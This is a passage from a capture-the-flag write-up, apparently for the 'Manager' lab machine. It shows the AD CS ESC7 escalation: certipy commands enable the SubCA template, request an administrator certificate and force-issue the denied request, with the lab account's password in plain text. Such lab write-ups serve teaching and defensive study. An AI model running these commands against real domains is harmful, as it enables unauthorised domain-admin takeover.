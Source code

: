 - but if it wasn't enabled, we would enable it with the command

```shell
certipy ca -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -enable-template 'SubCA'
```

![](assets/Manager_assets/Pasted%20image%2020231223163837.png)

- now we want to request a certificate using the SubCA certificate using the command below, but it will obviously get denied because we are not administrator so we can't use the template. but we save the private key (14.key)and take note of the Request ID (14)

```shell
certipy req -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

![](assets/Manager_assets/Pasted%20image%2020231223164626.png)

- then using certipy, we can then issue the failed certificate users, and this is because we have the `ManageCA` and `ManageCertificates` rights. so we do this by specifying the Request ID of the request that was denied

```shell
certipy ca -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -issue-request 14 
```

![](assets/Manager_assets/Pasted%20image%2020231223164956.png)

> NOTE: The machine keeps resetting all the configurations, so it removes Raven as an officer, so we have to run the commands quickly together so we can issue the certificate

![](assets/Manager_assets/Pasted%20image%2020231223165034.png)
